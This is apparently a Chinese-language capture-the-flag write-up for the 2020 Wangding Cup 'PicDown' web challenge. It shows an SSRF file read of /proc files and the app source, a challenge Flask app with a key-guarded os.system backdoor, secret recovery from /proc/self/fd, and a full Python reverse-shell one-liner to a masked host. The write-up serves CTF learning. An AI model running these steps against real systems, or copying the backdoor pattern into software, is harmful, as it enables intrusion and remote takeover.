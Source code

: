 # \[网鼎杯 2020 白虎组]PicDown

## \[网鼎杯 2020 白虎组]PicDown

## 考点

* SSRF
* 任意文件读取
* Flask代码审计

## wp

除了一个框啥都没有，F12看到了请求的参数`/page?url=`

![](<../../.gitbook/assets/image (16) (1) (1).png>)

一开始以为PicDown是下载图片，试了一下发现就是SSRF

![](<../../.gitbook/assets/image (18) (1) (1) (1).png>)

尝试目录穿越文件读取，最后有个app用户

![](<../../.gitbook/assets/image (20) (1) (1).png>)

尝试读取flag，发现可以直接读`http://b7ce4ee5-2c98-41db-beae-1955d540e6bf.node4.buuoj.cn:81/page?url=/flag`访问得到一个图片，应该是非预期了。

![](<../../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

读取`/proc/self/cmdline`文件，得到`python2 app.py`

访问`/proc/self/environ`得到如下

```
MAIL=/var/mail/app
USER=app
HOME=/home/app
LOGNAME=app
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SHELL=/bin/sh
PWD=/app
```

访问`app.py`，直接访问?url=app.py

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

可以看到`app.py`在读取`/tmp/secret.txt`后把它删除，然后我们要在`/no_one_know_the_manager`传递一个和`secret.txt`内容相同的字符串才能getshell。虽然它删除了文件，但是是有读取缓存的，在`/proc/pid/fd/`中，一个一个试不难试出来在`/proc/self/fd/3`

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (6) (1) (1) (1).png>)

由于无回显，这又是用的python2，所以直接用python反弹shell即可

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("****",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](<../../.gitbook/assets/image (8) (1) (1) (1).png>)

## 小结

1. 在读取文件时，可以考虑的文件`/proc/self/cmdline`，`/proc/self/environ`，`/proc/cmdline`，`/etc/hosts`
